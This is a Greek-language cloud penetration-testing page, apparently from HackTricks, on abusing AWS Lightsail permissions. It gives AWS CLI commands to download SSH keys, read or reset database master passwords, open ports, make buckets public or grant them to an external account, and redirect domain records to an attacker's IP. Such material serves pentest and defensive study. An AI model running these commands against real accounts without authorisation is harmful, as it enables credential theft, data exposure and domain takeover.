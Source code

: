 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Για περισσότερες πληροφορίες σχετικά με το Lightsail, ελέγξτε:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Είναι σημαντικό να σημειωθεί ότι το Lightsail **δεν χρησιμοποιεί IAM ρόλους που ανήκουν στον χρήστη** αλλά σε έναν διαχειριζόμενο λογαριασμό AWS, οπότε δεν μπορείτε να εκμεταλλευτείτε αυτή την υπηρεσία για privesc. Ωστόσο, **ευαίσθητα δεδομένα** όπως κώδικας, API κλειδιά και πληροφορίες βάσης δεδομένων θα μπορούσαν να βρεθούν σε αυτή την υπηρεσία.

### `lightsail:DownloadDefaultKeyPair`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα SSH κλειδιά για να έχετε πρόσβαση στις περιπτώσεις:
```
aws lightsail download-default-key-pair
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:GetInstanceAccessDetails`

Αυτή η άδεια θα σας επιτρέψει να δημιουργήσετε κλειδιά SSH για να αποκτήσετε πρόσβαση στις περιπτώσεις:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:CreateBucketAccessKey`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε ένα κλειδί για να έχετε πρόσβαση στον κάδο:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στον κάδο.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα διαπιστευτήρια για να έχετε πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:UpdateRelationalDatabase`

Αυτή η άδεια θα σας επιτρέψει να αλλάξετε τον κωδικό πρόσβασης για να αποκτήσετε πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Αν η βάση δεδομένων δεν είναι δημόσια, μπορείτε επίσης να την κάνετε δημόσια με αυτές τις άδειες με
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:OpenInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:PutInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο. Σημειώστε ότι η κλήση θα κλείσει οποιαδήποτε θύρα έχει ανοιχτεί και δεν έχει καθοριστεί σε αυτήν.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:SetResourceAccessForBucket`

Αυτή η άδεια επιτρέπει να δώσετε σε μια παρουσία πρόσβαση σε έναν κάδο χωρίς επιπλέον διαπιστευτήρια.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateBucket`

Με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει την δική του AWS λογαριασμό πρόσβαση ανάγνωσης σε buckets ή ακόμα και να κάνει τα buckets δημόσια σε όλους:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateContainerService`

Με αυτές τις άδειες, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει πρόσβαση σε ιδιωτικά ECRs από την υπηρεσία κοντέινερ.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Πιθανές Επιπτώσεις:** Λάβετε ευαίσθητες πληροφορίες από ιδιωτικό ECR

### `lightsail:CreateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει μια εγγραφή SPF που του επιτρέπει να παραποιεί emails από τον τομέα, ή ακόμη και να ορίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

### `lightsail:UpdateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει μια εγγραφή SPF που του επιτρέπει να παραποιεί emails από τον τομέα, ή ακόμα και να ορίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

{{#include ../../../banners/hacktricks-training.md}}
